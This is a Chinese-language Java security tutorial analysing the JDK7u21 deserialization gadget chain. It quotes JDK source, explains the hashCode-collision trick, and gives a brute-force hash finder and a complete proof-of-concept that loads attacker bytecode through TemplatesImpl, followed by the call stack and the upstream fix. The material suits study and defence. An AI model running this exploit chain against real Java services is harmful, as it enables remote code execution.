




+++
title= "Jdk7u21反序列化漏洞"
slug= "jdk7u21-deserialization"
description= ""
date= "2025-09-11T14:50:59+08:00"
lastmod= "2025-09-11T14:50:59+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

前面学习了CC链之后，我们发现其实无论他多么复杂，也就是个readObject到trasform的过程，转换成一个大思想，其实就是触发**动态执行**的地方，到Sink点的地方。 

- CommonsCollections系列反序列化的核心点是那一堆 Transformer ，特别是其中的 InvokerTransformer 、 InstantiateTransformer 
- CommonsBeanutils反序列化的核心点是`PropertyUtils#getProperty`，因为这个方法会触发任意对象的getter  

在jdk8u71之前，我们有`sun.reflect.annotation.AnnotationInvocationHandler`，学习CC1的时候利用这个类 时`Map#put`、 `Map#get`，现在来看到`equalsImpl`方法

```java
private Boolean equalsImpl(Object var1) {
        if (var1 == this) {
            return true;
        } else if (!this.type.isInstance(var1)) {
            return false;
        } else {
            for(Method var5 : this.getMemberMethods()) {
                String var6 = var5.getName();
                Object var7 = this.memberValues.get(var6);
                Object var8 = null;
                AnnotationInvocationHandler var9 = this.asOneOfUs(var1);
                if (var9 != null) {
                    var8 = var9.memberValues.get(var6);
                } else {
                    try {
                        var8 = var5.invoke(var1);
                    } catch (InvocationTargetException var11) {
                        return false;
                    } catch (IllegalAccessException var12) {
                        throw new AssertionError(var12);
                    }
                }

                if (!memberValueEquals(var7, var8)) {
                    return false;
                }
            }

            return true;
        }
    }
```

首先可以看到很明显的反射调用`var8 = var5.invoke(var1);`，也就是说他在遍历所有`this.type`的方法，如果我们可控type为Templates类，则势必会调用到其中的`newTransformer()`或`getOutputProperties()`方法，从而RCE。

但是如何调用到这个方法呢，前面我们学习CC1反序列化利用链的时候，知道这样的手法



- `sun.reflect.annotation.AnnotationInvocationHandler` 是一个实现了 `InvocationHandler` 的类，它本身就是一个动态代理处理器 。
- 在反序列化时，如果它被包装成一个代理对象（Proxy） ，那么对这个代理对象的任何方法调用 都会进入 `AnnotationInvocationHandler#invoke` 方法。

查看invoke方法

```java
public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
        } else {
            assert var5.length == 0;

            if (var4.equals("toString")) {
                return this.toStringImpl();
            } else if (var4.equals("hashCode")) {
                return this.hashCodeImpl();
            } else if (var4.equals("annotationType")) {
                return this.type;
            } else {
                Object var6 = this.memberValues.get(var4);
                if (var6 == null) {
                    throw new IncompleteAnnotationException(this.type, var4);
                } else if (var6 instanceof ExceptionProxy) {
                    throw ((ExceptionProxy)var6).generateException();
                } else {
                    if (var6.getClass().isArray() && Array.getLength(var6) != 0) {
                        var6 = this.cloneArray(var6);
                    }

                    return var6;
                }
            }
        }
```

 当方法名等于`equals`，且仅有一个Object类型参数时，会调用到 equalImpl 方法。既然找到了sink点，我们现在就要去找入口，在前面学习CC6的时候，是使用的`HashSet#readObject`来触发反序列化

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read capacity and verify non-negative.
        int capacity = s.readInt();
        if (capacity < 0) {
            throw new InvalidObjectException("Illegal capacity: " +
                                             capacity);
        }

        // Read load factor and verify positive and non NaN.
        float loadFactor = s.readFloat();
        if (loadFactor <= 0 || Float.isNaN(loadFactor)) {
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        }

        // Read size and verify non-negative.
        int size = s.readInt();
        if (size < 0) {
            throw new InvalidObjectException("Illegal size: " +
                                             size);
        }
        // Set the capacity according to the size and load factor ensuring that
        // the HashMap is at least 25% full but clamping to maximum capacity.
        capacity = (int) Math.min(size * Math.min(1 / loadFactor, 4.0f),
                HashMap.MAXIMUM_CAPACITY);

        // Constructing the backing map will lazily create an array when the first element is
        // added, so check it before construction. Call HashMap.tableSizeFor to compute the
        // actual allocation size. Check Map.Entry[].class since it's the nearest public type to
        // what is actually created.

        SharedSecrets.getJavaOISAccess()
                     .checkArray(s, Map.Entry[].class, HashMap.tableSizeFor(capacity));

        // Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
```

这是jdk8的`HashSet#readObject`，而jdk7u21呢

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read in HashMap capacity and load factor and create backing HashMap
        int capacity = s.readInt();
        float loadFactor = s.readFloat();
        map = (((HashSet)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in size
        int size = s.readInt();

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
```

7的明显要不安全很多，全部都是没有校验和检查，直接从流中去读取， 使用了一个HashMap，将对象保存在HashMap的key处来做去重。  

HashMap，就是数据结构里的哈希表，相信上过数据结构课程的同学应该还记得，哈希表是由数组+链 表实现的——哈希表底层保存在一个数组中，数组的索引由哈希表的 key.hashCode() 经过计算得到， 数组的值是一个链表，所有哈希碰撞到相同索引的key-value，都会被链接到这个链表后面。  



 为了触发比较操作，我们需要让比较与被比较的两个对象的哈希相同，  跟进`Hashmap#put`

```java
public V put(K key, V value) {
        if (key == null)
            return putForNullKey(value);
        int hash = hash(key);
        int i = indexFor(hash, table.length);
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
                V oldValue = e.value;
                e.value = value;
                e.recordAccess(this);
                return oldValue;
            }
        }

        modCount++;
        addEntry(hash, key, value, i);
        return null;
    }
```

`if (e.hash == hash && ((k = e.key) == key || key.equals(k)))`只要我们能够平稳的触发到这里，就能够串联起来，计算 `key` 的数组索引 `i`。，遍历 `table[i]` 这个位置的链表，对于链表中的每一个元素 `k`，执行 `if (key.equals(k))` 来判断是否是同一个键。

```java
final int hash(Object k) {
        int h = 0;
        if (useAltHashing) {
            if (k instanceof String) {
                return sun.misc.Hashing.stringHash32((String) k);
            }
            h = hashSeed;
        }

        h ^= k.hashCode();
        h ^= (h >>> 20) ^ (h >>> 12);
        return h ^ (h >>> 7) ^ (h >>> 4);
    }
```

为了让两个不同的对象（`proxy` 和 `TemplatesImpl`）的索引 `i` 相同，最简单直接的方法就是让它们的 `hashCode()` 返回值完全相同。  

 TemplateImpl的`hashCode()`是一个Native方法，每次运行都会发生变化，我们理论上是无法预测的，所以想让proxy的 hashCode() 与之相等，只能寄希望于`proxy.hashCode()`。但是我并不能搜索到这个方法的完整代码，它不存在于静态代码中。`proxy` 对象是在内存中动态构建的。  `invoke` 方法是分发中心。  

`proxy.hashCode()` -> `JVM代理机制` -> `AnnotationInvocationHandler.invoke()` -> `(判断方法名后)` -> `AnnotationInvocationHandler.hashCodeImpl()`。  

```java
    private int hashCodeImpl() {
        int var1 = 0;

        for(Map.Entry var3 : this.memberValues.entrySet()) {
            var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue());
        }

        return var1;
    }
```

遍历`memberValues`这个Map中的每个key和value，计算每个`(127 * key.hashCode()) ^ value.hashCode()`并求和。  分为以下几种情况

简化场景: 攻击者将 `AnnotationInvocationHandler` 的 `memberValues` map 中只放入一个键值对。这样，`hashCodeImpl` 的计算公式就从一个复杂的“累加和”简化为单项计算： 

- hash=(127×key.hashCode())⊕value.hashCode()

(这里的 `^` 符号在数学上常表示异或 `⊕`)

- 消除干扰项: 攻击者需要找到一个 `key`，使其 `key.hashCode()` 的值为 `0`。
- `String` 类的 `hashCode()` 算法是公开的，因此找到一个哈希值为0的字符串是完全可能的（例如，在很多JDK版本中，字符串 "f5a5a608" 的哈希值就是0）。
- 当 `key.hashCode()` 为 `0` 时，公式的第一部分 `(127 * 0)` 就变成了 `0`。

利用异或特性: 此时公式进一步简化为： 

- hash=0⊕value.hashCode()
- 根据异或运算的特性，任何数字与0进行异或，结果都是其本身 (`A ^ 0 = A`)。

所以，最终的哈希值就变成了： 

- hash=value.hashCode()

所以，我们找到一个hashCode是0的对象作为 memberValues 的key，将恶意TemplateImpl对象作为 value，这个proxy计算的hashCode就与TemplateImpl对象本身的hashCode相等了。找一个hashCode是0的对象，我们可以写一个简单的爆破程序来实现：  

```java
package Base.Unserialize.Jdk;

public class HashCodeFinder {

    public static void main(String[] args) {
        System.out.println("开始暴力破解，这会花费非常非常长的时间...");
        bruteHashCode();
        System.out.println("破解结束。");
    }

    public static void bruteHashCode() {
        for (long i = 0; i < 9999999999L; i++) {
            String hexString = Long.toHexString(i);
            if (hexString.hashCode() == 0) {
                System.out.println("找到了! 十六进制: " + hexString + ", 对应的十进制: " + i);
            }
        }
    }
}
```

得到了`f5a5a608`，现在来写完整的POC

```java
package Base.Unserialize.Jdk;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javax.xml.transform.Templates;


public class jdk7u21Unserialize {
    public static void main(String[] args) throws Exception {
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());


        String hashCodeStr="f5a5a608";
        Map innerMap=new HashMap();
        innerMap.put(hashCodeStr, harmlessTemplates);


        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) construct.newInstance(Templates.class,innerMap);
        setFieldValue(invocationHandler, "type", Templates.class);


        Templates proxyMap = (Templates) Proxy.newProxyInstance(
                jdk7u21Unserialize.class.getClassLoader(),
                new Class[]{Templates.class},
                invocationHandler
        );
        HashSet set=new HashSet();
        set.add(proxyMap);
        set.add(harmlessTemplates);

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.Base.Evil.class.getName()).toBytecode()});

        byte[] data=serialize(set);
        Object o =unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

完整调用栈

```java
at sun.reflect.annotation.AnnotationInvocationHandler.equalsImpl(AnnotationInvocationHandler.java:199)
at sun.reflect.annotation.AnnotationInvocationHandler.invoke(AnnotationInvocationHandler.java:59)
at com.sun.proxy.$Proxy0.equals(Unknown Source:-1)
at java.util.HashMap.put(HashMap.java:475)
at java.util.HashSet.readObject(HashSet.java:309)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:601)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1004)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1891)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1796)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1348)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:370)
at Base.Unserialize.Jdk.jdk7u21Unserialize.unserialize(jdk7u21Unserialize.java:68)
at Base.Unserialize.Jdk.jdk7u21Unserialize.main(jdk7u21Unserialize.java:49)
```



来看修复的话其实 https://github.com/openjdk/jdk7u/commit/b3dd6104b67d2a03b94a4a061f7a473bb0d2dc4e



就是在`sun.reflect.annotation.AnnotationInvocationHandler#readObject`里面，之前捕获异常但是直接返回了，不影响反序列化，现在是直接抛出异常，就阻碍反序列化了，但是真的安全吗？那可未必，不然jdk8u20的反序列化链怎么来的
